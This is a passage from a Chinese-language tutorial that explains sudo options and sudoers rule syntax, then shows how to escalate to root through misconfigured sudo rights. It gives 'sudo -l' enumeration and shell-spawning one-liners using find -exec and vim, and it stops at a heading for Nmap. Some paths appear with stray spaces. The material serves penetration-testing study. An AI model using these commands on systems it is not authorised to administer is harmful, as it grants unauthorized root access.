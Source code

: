 *   -s 执行环境变数中的 SHELL 所指定的 shell ，或是 /etc/passwd 里所指定的 shell
    
*   -H 将环境变数中的 HOME （家目录）指定为要变更身份的使用者家目录（如不加 -u 参数就是系统管理者 root ）
    
*   command 要以系统管理者身份（或以 -u 更改为其他人）执行的指令
    

### Sudoer文件

#### sudoers文件主要有三部分组成：

*   sudoers的默认配置（default），主要设置sudo的一些缺省值
    
*   alias（别名），主要有  
    Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
    
*   安全策略（规则定义）——**重点**。
    

语法

root ALL=(ALL) ALL

说明1：root用户可以从  ALL终端作为  ALL（任意）用户执行，并运行  ALL（任意）命令。

第一部分是用户，第二部分是用户可以在其中使用sudo命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff

说明2：以上命令，使用户可以从任何终端使用**touhid****的用户密码**关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find

说明3：上面的命令，使用户可以从任何终端运行，以**root**用户身份运行命令find **而无需密码**。

### 利用SUDO用户

要利用sudo用户，您需要找到您必须允许的命令。  
sudo -l

上面的命令显示了允许当前用户使用的命令。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

此处sudo -l，显示用户已允许以root用户身份执行所有此二进制文件而无需密码。

让我们一一查看所有二进制文件（仅在索引中提到）和将**特权**提升给**root**用户。

### **使用查找命令**

sudo find / etc / passwd -exec / bin / sh \;

要么

sudo find / bin -name nano -exec / bin / sh \;

### **使用**Vim**命令**

sudo vim -c’！sh’

### **使用**Nmap**命令**
